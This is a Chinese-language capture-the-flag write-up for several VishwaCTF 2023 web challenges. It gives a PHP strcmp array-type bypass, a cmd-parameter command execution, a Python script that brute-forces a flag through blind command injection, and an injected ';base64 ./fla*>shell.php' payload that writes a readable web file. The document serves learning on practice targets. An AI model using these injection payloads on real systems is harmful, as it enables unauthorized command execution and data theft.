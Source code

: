 
### Eeezzy

```php
<?php

    session_start();
    $_SESSION['status']=null;

    $flag="";
    try {
        if (isset($_GET['username']) && isset($_GET['password'])) {
            if (strcmp($_GET['username'], $flag)==0 && strcmp($_GET['password'], $flag)==0)
                $_SESSION['status']=$flag;
            else
                $_SESSION['status']="Invalid username or password";
        }
    } catch (Throwable $th) {
        $_SESSION['status']=$flag;
    }

?>
```

![image-20230402143632411](https://gitee.com/leiye87/typora_picture/raw/master/20230405031642.png)

根据回显也可知道会输出 $_SESSION['status'] 的内容

所以只需要抛出Throwable异常即可

payload

```
?username=0&password[]=
```

但是我不理解的是，为什么之前尝试username[] 没有成功，仅限于password单独为数组的时候才会报错

### Payload

![image-20230402145420078](https://gitee.com/leiye87/typora_picture/raw/master/20230405031908.png)

点击system details 会回显系统信息。只增加了 btn一个参数也没有值，猜测回显条件为 `isset($_GET['btn'])`

robots.txt  下存在源码，cmd可以直接执行命令

payload：

`?cmd=cat index.php`

![image-20230402150855478](https://gitee.com/leiye87/typora_picture/raw/master/20230405031842.png)

### aLive

![image-20230402151523360](https://gitee.com/leiye87/typora_picture/raw/master/20230405031903.png)

可以执行命令，但只会回显bool

![image-20230402152022219](https://gitee.com/leiye87/typora_picture/raw/master/20230405031918.png)

![image-20230402152532546](https://gitee.com/leiye87/typora_picture/raw/master/20230405031920.png)

过滤了 echo，printf写马502

接下来就是根据命令回显盲注

```python
import requests
url="https://ch431629117491.ch.eng.run/"
data={
    "domain":";test `tac ./fl*|cut -c {0}` = \"{1}\" && printf \"The characters are equal.\""
}

print(data['domain'])

flag=""
for i in range(9,20):
    for j in range(70,128):
        data={
        "domain":";test `tac ./fl*|cut -c {0}` = \"{1}\" && printf \"The characters are equal.\"".format(i,chr(j))
        }
        result=requests.post(url=url,data=data)
        # print(data["domain"].format(i,chr(j)),result.text)
        print(i,chr(j))
        if "is inactive!" in result.text:
            j+=1
        else:
            flag+=chr(j)
            print(flag)
            break
print(flag)
```

太慢了，搞出来一个非预期  
  
payload   

```
;base64 ./fla*>shell.php  
```

 访问后base64解码  

`VishwaCTF{b1inD_cmd-i}`
根据flag看应该是非预期

### Mascot

除了一个前端井字棋游戏之外啥也没有

太离谱了，git泄露，不需要githacker，泄露了github地址，直接跟过去得到 flaggg.md



https://github.com/CybercellVIIT/VishwaCTF-23_Official_Writeups
